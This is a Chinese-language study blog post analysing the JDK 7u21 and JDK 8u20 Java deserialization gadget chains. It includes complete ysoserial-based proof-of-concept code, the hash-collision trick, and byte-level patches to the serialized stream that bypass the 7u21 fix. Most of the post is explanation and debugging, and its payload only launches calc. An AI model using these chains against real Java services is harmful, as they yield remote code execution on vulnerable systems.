前言：最近缺少sink点，看看前辈们是怎么利用原生链的
然后jdk7u21对其构造细节进行了一些分析吧，自我感觉分析的挺全的了，没啥难度
jdk8u20主要是根据参考种跳跳糖那篇文章，学习的。有点难度的。思路到不难，就是最后那个报错的完全理解什么原因以及怎么处理！感觉参考文章那个点不是很清楚，于是根据自己的理解又去琢磨琢磨了那个点
jdk7u21
简短概述下吧，利用
AnnotationInvocationHandler#invoke方法中动态代理调用的方法为equals时对应if选项里代码，其会通过(for循环反射调用)去调用type属性的所有方法（这里也就设置type为Templates.class，然后调用的对象为equals(obj)的参数，所以这里obj是TemplatesImpl即可进行利用）然后还有个难点是hash的判断，利用map的
equals，都需要构造一个hash相等的东西（这里7u21作者的设计还挺有意思的）那就一起简单看看吧
调用链
LinkedHashSet.readObject()
LinkedHashSet.add()
...
TemplatesImpl.hashCode() (X)
LinkedHashSet.add()
...
Proxy(Templates).hashCode() (X)
AnnotationInvocationHandler.invoke() (X)
AnnotationInvocationHandler.hashCodeImpl() (X)
String.hashCode() (0)
AnnotationInvocationHandler.memberValueHashCode() (X)
TemplatesImpl.hashCode() (X)
Proxy(Templates).equals()
AnnotationInvocationHandler.invoke()
AnnotationInvocationHandler.equalsImpl()
Method.invoke()
...
TemplatesImpl.getOutputProperties()
这里其实到Proxy(Templates).equals()前都是为了进入equals这步if，前面都是为了hash相等的构造（也就是核心sink利用步骤只有后面这段）
poc
poc是直接用的ysoserial的
import ysoserial.Deserializer;
import ysoserial.Serializer;
import ysoserial.payloads.Jdk7u21;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.Reflections;
import javax.xml.transform.Templates;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.LinkedHashSet;
public class jdk7u21_poc {
public static void main(String[] args) throws Exception {
Object templates = Gadgets.createTemplatesImpl("calc");
String zeroHashCodeStr = "f5a5a608";
HashMap map = new HashMap();
map.put(zeroHashCodeStr, "foo");
InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Override.class, map);
Reflections.setFieldValue(tempHandler, "type", Templates.class);
Templates proxy = (Templates)Gadgets.createProxy(tempHandler, Templates.class, new Class[0]);
LinkedHashSet set = new LinkedHashSet();
set.add(templates);
set.add(proxy);
Reflections.setFieldValue(templates, "_auxClasses", (Object)null);
Reflections.setFieldValue(templates, "_class", (Object)null);
map.put(zeroHashCodeStr, templates);
byte[] ser = Serializer.serialize(set);
Deserializer.deserialize(ser);
}
}
hash
链子整体没啥讲的，很简单。主要是hash那
主要要满足两次进入put时，hash要一样，且第一次设置的key(就是第二次的k)得是TemplatesImpl（因为这个是作为最后invoke的object进行调用的）也就是说proxyput调用前，得有一个存储值key得是TemplatesImpl且hash要和proxy计算出的hash相同
public class HashSet<E>{
private void readObject(java.io.ObjectInputStream s)
throws java.io.IOException, ClassNotFoundException {
for (int i=0; i<size; i++) {
E e = (E) s.readObject();
map.put(e, PRESENT);
}

然后这里TemplatesImpl的hashcode()调用是直接调用Object的hashcode()
而proxy的hashcode()这里则是有对应的处理方式（这里其实可以控制返回0，但是TemplatesImpl的hashcode()不可能为0，所以不能这样构造
private int hashCodeImpl() {
int var1 = 0;
Map.Entry var3;
for(Iterator var2 = this.memberValues.entrySet().iterator(); var2.hasNext(); var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) {
var3 = (Map.Entry)var2.next();
}
return var1;
}
this.memberValues可以初始化设置，可以看到返回的是var1
var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue()))
private static int memberValueHashCode(Object var0) {
Class var1 = var0.getClass();
if (!var1.isArray()) {
return var0.hashCode();
然后7u21的作者是爆破了一个((String)var3.getKey()).hashCode()的值为**0**的数("f5a5a608")
然后再让var3.getValue()为第一次存储的TemplatesImpl为同一个对象，即可实现和第一次的hash值相等
巧的点就在这hhh，我第一反义肯定想不到一个有值的String.hashcode()的值会为0！！
[*] String hashcode & 整形溢出
然后就好奇呀，就去看代码了，发现是溢出导致的负数从而导致可以得到0这个值hhh，挺有意思的，第一次直观感受到整形溢出的利用

然后写了个小demo，感觉挺有意思的
public class hashtest {
public static void main(String[] args) throws Exception {
System.out.println(Integer.MAX_VALUE); // 输出 2147483647
System.out.println(Integer.MIN_VALUE);
System.out.println(2147483647*100);
System.out.println(2147483647*2);
System.out.println(2147483647+1);
System.out.println(-2147483648-1);
System.out.println(-2147483648*3);
System.out.println(2147483647*3);
System.out.println("".hashCode());
}
}
输出
2147483647
-2147483648
-100
-2
-2147483648
2147483647
-2147483648
2147483645
0
然后对int的值域的理解，其实类似一个环形（最小值连接着最大值，min-1=max，max+1=min）
这里简单解释下-2147483648*2 = 0 ，2147483647*2 = -2
这里其实就是二进制下右移一步
-2147483648是10000000 00000000 00000000 00000000右移后直接00000000 00000000 00000000 00000000也就为0了
2147483647是01111111 11111111 11111111 11111111右移后11111111 11111111 11111111 11111110，这里开头是1要采用补码机制，即为-号，然后取反再+1
取反00000000 00000000 00000000 00000001+1得00000000 00000000 00000000 00000010然后符号
所以为-2hh，都快忘了hh 很明白了吧
[*] 值2
当然这里值肯定不止f5a5a608一个，但是呢我可能想不到溢出但是我肯定会想到""空值
我们看到String的hash默认是为0的

再看String的hashCode()代码，是不是只有不进入这个if，即可得到hash为0的字符串了呢

也就是让length<=0即可，即"".hashCode()，验证可行hh
然后其实这里equals的触发，CC7的map我觉得也完全没问题，感兴趣可以看看我CC7的几种绕过hash相等的问题

put点
还有一个关于put顺序的poc设计吧，也是类似CC链的。
map这个值存放到AnnotationInvocationHandler.this.memberValues用于hash的运算
然后这里map没有直接存TemplatesImpl对象，因为下方LinkedHashSet#add会触发map#put->hash的检测——>触发equals调用->触发sink报错中断
所以这里等LinkedHashSet#add完，再put覆盖成对应的TemplatesImpl对象，其他应该没啥说的了这条链子

7u21的修复
对我们type进行了类型限制，导致我们将type设置成Templates.class时会throw错误中断我们的反序列化，

jdk8u20
这里主要依靠的是@1nhann师傅那篇文章，不轻松捏
针对7u21的绕过，主要利用两个特性
- 双层try/catch
- TC_REFERENCE
双层try/catch
直接写看个demo吧，这里我们会发现里层try会throw错误，但是这个时候并不会直接中断程序，相当于里层try/catch都属于外层try的代码，所以这时应该跳转到外层的catch，而外层catch没有throw时后面的代码依然可以正常运行
当然这里外层catch是throw的话，这个会返回bitch2
还有一点外层catch的捕获类型要包含内层的throw，如果外层是IOException，内层是Exception，这时就会捕获不到，然后报错终端
public class error {
public static void main(String[] args) throws Exception {
try {
try {
int i = 1/0;
}catch (Exception e){
throw new Exception("bitch");
}
}catch (Exception e){
// }catch (IOException e){
// throw new Exception("bitch2");
;
}
System.out.println("fuck");
}
}
而AnnotationInvocationHandler#readObject中是先就执行了s.defaultReadObject();再对type进行的判断
这样也就是，进行type判断后的代码，我其实并不需要（gadget不用后面的调用），我只需要AnnotationInvocationHandler对象而已，所以这里靠双层try/catch能让AnnotationInvocationHandler还原对象即可，type后面的代码执行不了也无所谓

所以gadget中如果有代码能满足这个一个例子，是不是就能让AnnotationInvocationHandler#readObject不中断程序了呢
{
try{
os.readObject(); //这个进行AnnotationInvocationHandler#readObject
}
catch (Exception e){
; //然后会跳转到这行来，只要不是什么强制退出的代码是不是就能用了呢
}
}
然后还有一点要考虑，就是段代码要能被我们gadget调用且能控制os值为我们AnnotationInvocationHandler序列化数据
这里java.beans.beancontext.BeanContextSupport 就刚好满足我们的条件，这个类的 readObject() ，调用了 readChildren(ois);下图其代码中可以看到catch是满足条件的
private synchronized void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
synchronized(BeanContext.globalHierarchyLock) {
ois.defaultReadObject();
initialize();
bcsPreDeserializationHook(ois);
if (serializable > 0 && this.equals(getBeanContextPeer()))
readChildren(ois);
deserialize(ois, bcmListeners = new ArrayList(1));
}
}

TC_REFERENCE
这个简单说就是，java序列化/反序列化对每个对象产生时都设置了一个Handler值(类似索引)，而你第二次调用同一个对象时，java会直接通过这个Handler值找到第一次生成的对象进行调用
还是通过demo说下吧（这个特性绕过fastjson原生链那个是同一个）懒，demo也是直接copy的，别喷
import ysoserial.Serializer;
import java.io.File;
import java.io.FileOutputStream;
public class Test {
public static void main(String[] args) throws Exception{
Fuck f = new Fuck();
Object[] l = {f,f};
byte[] ser = Serializer.serialize(l);
writeFile(ser,"1.txt");
}
public static void writeFile(byte[] content,String path) throws Exception{
File file = new File(path);
FileOutputStream f = new FileOutputStream(file);
f.write(content);
f.close();
}
}
就这里不是有2个f么，都调用的同一个对象，这里序列化时，只会给第一个f完整的序列化，而第二个f则存储第一个f的Handler，而反序列化时，也是先反序列化第一个f，到第二个f还原对象时，直接把第一个f的对象给他
关于
Handler的一个小知识，序列化数据里面第一个Handler值都是@Handler - 8257536 (0x7E0000)，然后每新产生一个Handler，值+1，第二个Handler就为8257537
利用思路
然后说了这么多到底怎么利用呢？
还记得7u21我们用的LinkedHashSet传了一个值，后面hash碰撞
- 我们让
BeanContextSupport包裹AnnotationInvocationHandler然后放在第一位//用于还原AnnotationInvocationHandler对象 - TemplatesImpl放第二位，和7u21一样用于hash的碰撞
- Proxy放第三位，其中
代理类和我们BeanContextSupport包裹的是同一个对象就行了
这样会先反序列化BeanContextSupport对象，就会把AnnotationInvocationHandler还原了。然后proxy利用时直接通过Handler调用还原了的AnnotationInvocationHandler对象（后面就和7u21一样了
poc 报错
前言：跳跳糖那篇文章很好，但是关于
最后那个报错问题我觉得光看那篇文章肯定是搞不明白的以及为什么删那两个数据，为什么不能添加呢？为什么删除了数据会不出乱子而可以正常利用呢？其实都没交代（至少在我的视角下是这样的，也可能是我菜!^!），然后笔者下面记录的光看肯定也是理解不了，要自己找到对应点调试和对应序列化数据才能体会其中的真意
直接copy的poc，然后也很好理解吧，但是又产生了一个新的报错！！！（为了搞明白这个报错也是花费了一些时间）
import ysoserial.Deserializer;
import ysoserial.Serializer;
import ysoserial.payloads.util.Gadgets;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import ysoserial.payloads.util.Reflections;
import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.LinkedHashSet;
public class Poc {
public static void main(String[] args) throws Exception{
TemplatesImpl templates = (TemplatesImpl) Gadgets.createTemplatesImpl("calc.exe");
InvocationHandler ih = (InvocationHandler) Reflections.getFirstCtor(Gadgets.ANN_INV_HANDLER_CLASS).newInstance(Override.class,new HashMap<>());
Reflections.setFieldValue(ih,"type", Templates.class);
Templates proxy = Gadgets.createProxy(ih,Templates.class);
BeanContextSupport b = new BeanContextSupport();
Reflections.setFieldValue(b,"serializable",1);
HashMap tmpMap = new HashMap<>();
tmpMap.put(ih,null);
Reflections.setFieldValue(b,"children",tmpMap);
LinkedHashSet set = new LinkedHashSet();//这样可以确保先反序列化 templates 再反序列化 proxy
set.add(b);
set.add(templates);
set.add(proxy);
HashMap hm = new HashMap();
hm.put("f5a5a608",templates);
Reflections.setFieldValue(ih,"memberValues",hm);
byte[] ser = Serializer.serialize(set);
Deserializer.deserialize(ser);
}
}
然后运行会产生一个因为readInt()的报错，而这个报错归功于AnnotationInvocationHandler
Exception in thread "main" java.io.EOFException
at java.io.DataInputStream.readInt(DataInputStream.java:392)
at java.io.ObjectInputStream$BlockDataInputStream.readInt(ObjectInputStream.java:2823)
一直调试跟踪到readBlockHeader()这里return -1;导致的in.read()为-1 ，然后进入throw


跟踪发现你的类重写readObject然后调用defaultReadObject()，反序列化就会进入下方代码，而defaultDataEnd这个值则跟该类有没有writeObject()有关，没有的话这里就会给defaultDataEnd = true，然后这就是导致上方报错的根本原因吗？？？No

其实这只是其中一个原因（或者说不是根本原因），如果BeanContextSupport存一个对象，就因为这个对象的类没有writeObject()就报错，是不是有点太蠢了呀。于是写了个demo
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import ysoserial.Deserializer;
import ysoserial.Serializer;
import ysoserial.payloads.util.ReadWrite;
import ysoserial.payloads.util.Reflections;
import java.beans.beancontext.BeanContextSupport;
import java.util.HashMap;
import java.util.LinkedHashSet;
public class serSupport {
public static void main(String[] args) throws Exception {
Test2 test = new Test2();
BeanContextSupport b = new BeanContextSupport();
Reflections.setFieldValue(b,"serializable",1);
HashMap tmpMap = new HashMap<>();
tmpMap.put(test,null);
Reflections.setFieldValue(b,"children",tmpMap);
String test2="test2";
TemplatesImpl templates = new TemplatesImpl();
LinkedHashSet set = new LinkedHashSet();//这样可以确保先反序列化 templates 再反序列化 proxy
set.add(b);
set.add(test2);
set.add(templates);
byte[] ser = Serializer.serialize(set);
ReadWrite.writeFile(ser,"serobj.txt");
Deserializer.deserialize(ser);
}
}
Test2
import ysoserial.Deserializer;
import ysoserial.payloads.util.ReadWrite;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
public class Test2 implements Serializable {
public static void main(String[] args) throws Exception{
byte[] bytes = ReadWrite.readFile("ser+.txt");
Deserializer.deserialize(bytes);
}
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
ois.defaultReadObject();
}
}
然后你会发现并没有报错，而且defaultDataEnd = true也赋值了的。先看看序列化数据吧，用zkar看的
我先解释下这段数据位于啥地方，最外层是java.util.LinkedHashSet的[]ClassData，就是记录LinkedHashSet中每个属性对应的值，然后为啥单独拿这个地方来说呢，看3那个位置，这个对我们来说很重要，因为这里是报错产生的位置。
然后没有看过序列化数据的师傅建议跟着这个思维导图看，还是挺建议看的，把每个值的注释含义以及完整看一个序列化数据基本上就都能看懂了。

然后简单提一点吧@ObjectAnnotation在数据里面当时没看懂的，后面看到下图这个才理解，可以理解为序列化数据吧（刚开始看的时候困惑了下，这里也是简单提一下

然后你会看序列化数据后，你肯定还关心一个点@ClassDescFlags，可以看到Test2是没有SC_WRITE_METHOD这个值，那他为什么没有报错捏？
@ClassName
@Length - 5 - 0x00 05
@Value - Test2 - 0x54 65 73 74 32
@SerialVersionUID - 6232696428067116234 - 0x56 7e fc 61 0b c9 54 ca
@Handler - 8257558
@ClassDescFlags - SC_SERIALIZABLE - 0x02
回到正题
我们在赋值true后往后跟踪，

发现Test2反序列化完成后，会把defaultDataEnd = false重新覆盖掉的。（所以没有writeObject()不是罪魁祸首）
然后再反序列化
null，再到反序列化count = ois.readInt();（在结合上面序列化数据分析的）过程是这样。readInt()结束后，也就意味着BeanContextSupport反序列化结束了，然后到下一个对象了String test2的反序列化了（这里为什么说这个，对后面理解是有用的

debug表达式
String.format("0x%02X",(int)bin.in.in.buf[(int)bin.in.in.pos-1])
AnnotationInvocationHandler throw原因
那AnnotationInvocationHandler是什么原因呢自然是跟他readObject报错是有关系的。
报错最后throw的是IOException的报错，然后下图2是捕获ClassNotFoundException报错的，所以这里不会进入catch，而是**走完finally（没能执行defaultDataEnd = false）继续跳转到上层throw**（这个步骤重复了几次），最后才被BeanContextSupport的catch捕获IOException



于是这里又多了一层理解，及BeanContextSupportcatch能捕获的error要包含AnnotationInvocationHandler的throw才行而不只是满足双层try/catch结构

原因小结
所以就是readObject报错导致退出了，从而没能让defaultDataEnd = false重新覆盖掉。导致readInt()报错。而添加SC_WRITE_METHOD只是我们利用的手段，不是原因
byte[] flagsReplace = new byte[]{0x02,0x00,0x02};
int i = ByteUtil.getSubarrayIndex(ser,flagsReplace);
ser = ByteUtil.deleteAt(ser,i);
ser = ByteUtil.addAtIndex(ser,i, (byte) 0x03);
所以这里我们把flags 0x02改成0x03（SC_WRITE_METHOD值是0x01所以这里+1），这里zkar看序列化数据报错了，可以用另一个工具替代下SerializationDumper
C:\TOOLS\Java\jdk-17\bin\java.exe -jar SerializationDumper-v1.14.jar -f C:\Users\26618\Desktop\Ljava\jdk7u21-8u20\ser+.txt
再次调试
从defaultDataEnd = true最后那个}那里开始吧，然后发现会一路throw到BeanContextSupportcatch continue;，直接退出了BeanContextSupport包裹类的反序列化，直接来到deserialize的ois.readInt();


导致的问题
导致了个什么问题呢？
map的key是
AnnotationInvocationHandler，而我们设置的map的value是null，这里AnnotationInvocationHandler反序列化完就中断了map的反序列化导致**null没有反序列化**，而程序直接来到了ois.readInt();，序列化数据in.in.pos却还在null值的位置，然后导致throw然而这个null并不影响我们利用，所以直接把这个值删掉就好


这里再提一嘴null
为什么删掉没事。以及为什么要删除
还记得上面那个序列化数据图的分析么，下图这里是同一个位置含义差不多，这里调试对应的地方是TC_NULL,而int对应的是TC_BLOCKDATA，所以我们要让TC_BLOCKDATA提前，而为什么没影响呢，readInt()后其实就标志着BeanContextSupport反序列化的结束，然后紧接着要反序列化add的第二个对象了（下图是指向TemplatesImpl的Handler），所以这里不能添加值，只能删除值，因为添加值会对后面的反序列化照成影响，而删除TC_NULL能在前面完成闭环。

最简洁poc
大功告成，我们没有直接给AnnotationInvocationHandler改写一个writeObject，所以可以直接一个文件就可以执行了
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import ysoserial.Deserializer;
import ysoserial.Serializer;
import ysoserial.payloads.util.ByteUtil;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.ReadWrite;
import ysoserial.payloads.util.Reflections;
import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.io.FileInputStream;
import java.io.ObjectInputStream;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.LinkedHashSet;
public class jdk8u20_poc {
public static void main(String[] args) throws Exception{
TemplatesImpl templates = (TemplatesImpl) Gadgets.createTemplatesImpl("calc.exe");
InvocationHandler ih = (InvocationHandler) Reflections.getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Override.class, new HashMap<>());
Reflections.setFieldValue(ih,"type", Templates.class);
Templates proxy = Gadgets.createProxy(ih,Templates.class);
BeanContextSupport b = new BeanContextSupport();
Reflections.setFieldValue(b,"serializable",1);
HashMap tmpMap = new HashMap<>();
tmpMap.put(ih,null);
Reflections.setFieldValue(b,"children",tmpMap);
LinkedHashSet set = new LinkedHashSet();//这样可以确保先反序列化 templates 再反序列化 proxy
set.add(b);
set.add(templates);
set.add(proxy);
HashMap hm = new HashMap();
hm.put("f5a5a608",templates);
Reflections.setFieldValue(ih,"memberValues",hm);
byte[] ser = Serializer.serialize(set);
byte[] nullReplace = new byte[]{0x70,0x77,0x04,0x00,0x00,0x00,0x00,0x78,0x71};
byte[] flagsReplace = new byte[]{0x02,0x00,0x02};
int i = ByteUtil.getSubarrayIndex(ser,flagsReplace);
ser = ByteUtil.deleteAt(ser,i);
ser = ByteUtil.addAtIndex(ser,i, (byte) 0x03);
int j = ByteUtil.getSubarrayIndex(ser,nullReplace);
ser = ByteUtil.deleteAt(ser,j);
ReadWrite.writeFile(ser,"ser+.txt");
byte[] bytes = ReadWrite.readFile("ser+.txt");
Deserializer.deserialize(bytes);
}
}

8u20修复
最后反射调用的方法只能是下面3个，导致不能调用sink点了

后言：其实我记录的比较简单，关于
导致的问题这里得经过调试以及查看序列化源码才能得出，我最开始是看参考文章以为就那么回事，然后我是打算补全那个int数据的，也就是填充数据，然后发生了报错，以及感觉到一些疑点吧。反正就始终说服不了自己，主要就是参考文章里面删除那两个数据，为什么呢，为什么呢？？我知道是对齐int，但是会不会对其他数据照成影响呢？然后就自己琢磨哇，也是搞得明明白白了很爽。然后调试找序列化数据里面对应的位置，可以通过前后pos的值去找
参考